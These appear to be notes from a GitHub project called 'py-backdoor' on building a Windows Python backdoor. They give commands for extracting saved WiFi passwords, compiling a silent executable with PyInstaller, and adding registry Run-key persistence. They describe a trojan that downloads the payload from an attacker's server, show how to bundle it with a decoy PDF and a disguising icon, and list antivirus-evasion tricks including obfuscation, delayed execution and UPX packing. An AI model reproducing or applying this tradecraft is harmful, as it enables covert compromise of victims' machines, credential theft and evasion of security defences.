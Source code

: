 ## py-backdoor
- Initial Execution
- ![Screenshot 2024-08-08 125205.png](./assets/Screenshot_2024-08-08_125205_1723103941525_0.png)
- Execution after Boot [ Windows-Persistence]
- ![Screenshot 2024-08-08 125543.png](../assets/Screenshot_2024-08-08_125543_1723103929817_0.png)
### </>
- **WiFi-Password Extraction**
	- To show all networks - `netsh wlan show profile`
	- To display details of a particular network - `netsh wlan show profile <network name> key=clear`
### Packaging - Download and Execute
- `Pyinstaller`
	- `pip install pyinstaller` - convert `.py` to executables
		- **note:** architecture of the target and the attack machine must be the same for this to work
		- `pyinstaller client.py --onefile`
		- `pyinstaller backdoor.py --onefile --noconsole -n client.exe`
- **Silent Execution**
	- `sys.exit() # reliable exit -> prevents error message from being displayed`
	- To execute with no console`pyinstaller client.py --onefile --noconsole`
		- `subprocess.check_output()` interacts with `stdio` and `stderr` by default
			- to disable interaction
			  ```
			  DEVNULL = open(os.devnull,'wb')
                          # All I/O will be redirected to DEVNULL
			  return subprocess.check_output(command, 
							shell=True,
							stderr=DEVNULL,
							stdin=DEVNULL)
			  ```
- **Persistence**
	- Key - `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run`
		- Fields
			- Name - `/v`
			- Type - `/t`
			- Data - `/d`
	- Modify key
		- `reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v Scheduler /t REG_SZ /d C:/Users/user1/AppData/Roaming/scheduler.exe /f`
	- **note**- since the backdoor starts every time the computer starts; if the listener is not running error will be raised -> to prevent this add `try-catch` to `main`
- `troj_exp.py`
	- downloads the image file and runs it
	- checks to see if backdoor is already present in `appdata` directory
	- if not present it downloads the file from the attacker's python server where both thr `.exe` and `image.png` are served
- Disadvantages with previous build
	- The target needs an internet connection when running the trojan
	- Malware files have to be hosted
### Packaging - Combine Dummy w/ Backdoor
- `pyinstaller --add-data "../dummy/image.png:." --onefile --noconsole backdoor.py -n scheduler.exe`
	- `--add-file` - `src-file-path:.` ; `:.` tell pyinstaller to keep the front files in the default application temp directory
	- The code below executes the front files
	  ```
	  file_name = sys._MEIPASS + "\Resume.pdf"
	  subprocess.call(file_name, shell = True)
	  ```
   	- `_MEIPASS` : the path to the _internal folder within the bundle [ in this case, the Non-Malicious PDF ]
- **mask executable** with `.ICO`
	- `pyinstaller --add-data "../dummy/Template.pdf:." --onefile --noconsole backdoor.py -n Template --icon <path-to-ico-file>`
	- ![image.png](./assets/image_1722969936363_0.png)
### AV-Evasion
- Detection Mechanisms
	- Signature-based bypass measures
		- useless operations - loops, arithmetic etc.
		- encoding and obfuscation
	- Behaviour-based bypass measures
		- Delay execution - use `time.sleep()`
		- Run normal trusted operations before malicious execution
- Compress `exe` - `upx`
	- `./upx /<path-to-backdoor.exe> -o compressed_backdoor.exe`
- `IDAPro` can be used to modify the binary itself
